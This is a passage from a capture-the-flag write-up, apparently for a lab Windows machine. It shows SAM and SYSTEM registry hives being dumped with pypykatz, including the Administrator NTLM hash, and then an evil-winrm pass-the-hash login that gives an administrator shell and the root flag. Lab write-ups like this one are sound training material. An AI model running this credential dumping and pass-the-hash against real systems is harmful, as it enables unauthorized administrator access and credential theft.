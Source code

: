 We can extract `SAM` and `SYSTEM` file using different methods such as using `Diskshadow & Robocopy`.

We can extract the hive secrets from the SAM and SYSTEM file using the `pypykatz`.

Pypykatz is a Python-based tool used for extracting credentials and hashes from the Windows operating system, particularly from the memory of a running process. Pypykatz can also be used to extract password hashes and credentials from the `SAM (Security Account Manager)` and `SYSTEM` registry hives.

```bash
pypykatz registry --sam sam system

WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```

We will be using the administrator hash to gain access as the administrator user.

```bash
evil-winrm -i 10.10.11.35 -u 'administrator' -H "2b87e7c93a3e8a0ea4a581937016f341"
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cicada\administrator
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
59da4ee2c04e********************
```

Thanks for reading this far. If you enjoyed the writeup, do support me [__here__](https://www.buymeacoffee.com/h4xplo1t){:target="_blank"}.